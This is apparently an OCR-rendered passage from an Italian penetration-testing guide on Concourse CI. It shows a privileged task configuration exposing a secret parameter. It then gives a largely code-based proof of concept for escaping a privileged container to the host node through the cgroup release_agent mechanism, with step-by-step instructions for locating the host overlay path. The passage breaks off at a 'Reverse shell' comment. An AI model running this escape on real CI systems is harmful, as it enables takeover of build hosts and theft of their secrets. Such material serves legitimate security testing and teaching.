 ```yaml
env
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```

```bash
fly -t tutorial execute --privileged --config task_config.yml
```
#### Uscire verso il nodo da un'attività privilegiata

Nelle sezioni precedenti abbiamo visto come **eseguire un'attività privilegiata con concourse**. Questo non darà al contenitore esattamente lo stesso accesso del flag privilegiato in un contenitore docker. Ad esempio, non vedrai il dispositivo del filesystem del nodo in /dev, quindi l'uscita potrebbe essere più "complessa".

Nel seguente PoC useremo il release_agent per uscire con alcune piccole modifiche:
```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
```